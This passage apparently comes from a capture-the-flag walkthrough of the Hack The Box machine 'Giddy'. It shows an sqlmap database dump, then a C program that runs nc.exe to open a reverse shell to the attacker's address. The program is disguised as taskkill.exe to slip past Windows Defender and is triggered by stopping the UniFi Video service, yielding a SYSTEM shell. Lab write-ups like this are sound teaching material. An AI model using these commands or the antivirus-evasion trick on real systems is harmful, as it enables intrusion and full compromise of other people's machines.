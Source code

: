 ```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://giddy.htb/mvc/Product.aspx?ProductSubCategoryId=1" --dump
```
### Exploiting unifivideo without metasploit
Another alternative to bypass Windows Defender is write a C program that does a system call which uses the nc.exe executable that we will upload later to spawn a reverse shell connection

```
#include <stdlib.h>

int main() {
    system("C:\\ProgramData\\unifi-video\\nc.exe -e cmd.exe 10.10.16.6 4000");
}
```

Afterwards, we will use the cross-platform compiler to compile it into the taskkill.exe. Since this is code is written by us, there is no signature for malware that will be detected when we execute the taskkill.exe executable

```
┌──(kali㉿kali)-[~/Desktop/giddy]
└─$ x86_64-w64-mingw32-gcc rev.c -o taskkill.exe 
```

Afterwards, we will have to transfer the nc.exe and taskkill.exe executable to the vulnerable machine. 

```
*Evil-WinRM* PS C:\ProgramData\unifi-video> copy //10.10.16.6/share/nc.exe
*Evil-WinRM* PS C:\ProgramData\unifi-video> copy //10.10.16.6/share/taskkill.exe
```

Lastly, all we have to do is to stop the service of the UniFiVideoService to spawn a reverse shell

```
*Evil-WinRM* PS C:\ProgramData\unifi-video> Stop-Service -Name UniFiVideoService -Force
---------------------------------------------------------------------------------------
┌──(kali㉿kali)-[~/Desktop/giddy]
└─$ nc -nlvp 4000
listening on [any] 4000 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.104] 49733
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\ProgramData\unifi-video>whoami
whoami
nt authority\system

C:\ProgramData\unifi-video>
```
